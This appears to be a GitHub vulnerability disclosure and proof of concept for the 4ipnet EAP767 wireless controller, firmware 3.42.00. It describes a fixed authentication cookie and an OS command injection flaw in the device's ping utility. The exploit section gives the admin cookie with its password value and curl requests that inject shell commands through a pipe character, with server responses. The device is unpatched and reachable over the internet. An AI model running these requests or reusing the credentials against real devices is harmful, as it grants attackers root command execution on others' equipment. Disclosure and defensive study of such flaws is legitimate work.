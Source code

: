 # 4ipnet/EAP767 WRT Vulnerabilities
## Overview
4ipnet/EAP767 WRT is vulnerable to Incorrect Access Control and OS Command Injection
## Products Affected
EAP767 - 3.42.00
## Description
- The device is vulnerable to Incorrect Access Control. It uses the same set of credentials, regardless of how many times a user logs in, the content of the cookie remains unchanged(CWE-284).
- A OS command injection vulnerability was found within the web interface of the device([CWE-78](https://cwe.mitre.org/data/definitions/78.html)).
## Impact
An attacker may inject arbitrary shell commands with valid credentials, and it be executed by the device with root privileges.
## Solution
- Stop using the products and switch to alternative products
- The developer has disbanded in Oct 2020, and the firmware updates will not be provided.
## Mitigation 
- Disable internet access. 
- Change default credential.
## Device Features 
The login web page is exposed to internet, and it's used for 4ipnet wireless network controller
> Search online documents to obtain the default password for the device.

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_247c7496749603bc7b9772d11afd7ba4.png)

**Web console features**

System Overview
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_fa6cb02d32f831033c013c4142586a4f.png)

Network Utilities
`allowing network tests such as ping, tracert, arping, etc., to be performed through the web page.`
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_9925e6bd58df1d54d022f404504adbef.png)

## Exploit
**Phase 1 @ Browser**

The front-end performs input text validation to check whether the input text is compliant
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_0d41715f59b4037ce1b9dcea6c9d31ce.png)

Turn to the backend, analysis HTTP request characteristics from the network
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_b87e4fa1fea137d1feba67001f4ca104.png)
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_354d5ac2dd8284e800fa818cf166f489.png)


We gather two http request characteristics.
```asp!
# request 1
http://{host}/getPing.egi?url=127.0.0.1

# request 2
http://{host}/getPing.egi?pid=940
```
> It can be observed that its ping function first sends the url as a query string parameter, obtains the pid, then retrieves ping output in batches through the pid parameter, and finally presents the results on the web page

It was found that the management interface relies solely on the cookie name/value as the basis for user identification
> Using the same set of credentials (admin), regardless of how many times you log in, the content of the cookie remains unchanged.

| Name | Value |
| -------- | -------- |
| username     | admin    |
| password     |  17lgP6vqCV1Ko   |

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_3ecdb0b545bf10be16816293036534e8.png)


**Phase 2 @ cmd**

Using the curl tool to simulate an HTTP request to access the management interface home page, it was redirected to the login page
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_f3925ef9b1edaae1b762ad800322d80d.png)

Using the curl tool to simulate an HTTP request and including the aforementioned obtained cookie, it was confirmed that access to the authenticated management interface home page is possible
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_a76b368249757b325d6f3bcc4ab24d88.png)

Attempted to access the `getPing.egi` file and escape the query string parameter url using special characters (;, |) in an attempt to evade security and inject a specified command

**Attemp 1 with `;`**
Detected as invalid characters by the backend program.
```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1;"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:49:25 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 29
Connection: keep-alive
Keep-Alive: timeout=60, max=100

Illegal Characters of URL.
OK%                              
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_6b5b52a9a94d27f7ace8850892ba7f77.png)

**Attemp 2 with `|`**
Successful escape!!! and obtained pid!!!

```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1|"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:52:49 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 4
Connection: keep-alive
Keep-Alive: timeout=60, max=100

3704%      
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_77cdaa3fe2e0c85b8506ec8aa926a65b.png)

Inject Target with `ls` to list the current directory.
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_686276a082e16b2f204e75e987d55b0f.png)

Inject Target with `ls -l` to display the current directory structure, file permissions, file types, modification dates, and other information."
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls%20-l"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_caee4f89b8ef4271c2f50521c479fe61.png)



## Verify the device product and model.
```zsh!
curl -b "username=admin; password=17lgP6vqCV1Ko" "{host}/getPing.egi?url=|cat%20/etc/product.info"
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_c8581cfbd913fe193766cbad839cefc7.png)

## Conclusion
The presence of a Remote Code Execution (RCE) vulnerability is in the product. Arbitrary commands can be executed by passing the url parameter.

## Reference
- https://hkitblog.com/12770/
- https://www.lienshen.com.tw/sidebar1_01-2-11.html
- https://www.netadmin.com.tw/netadmin/zh-tw/snapshot/0E91A5D929C04C40AB6A6B88592725E1

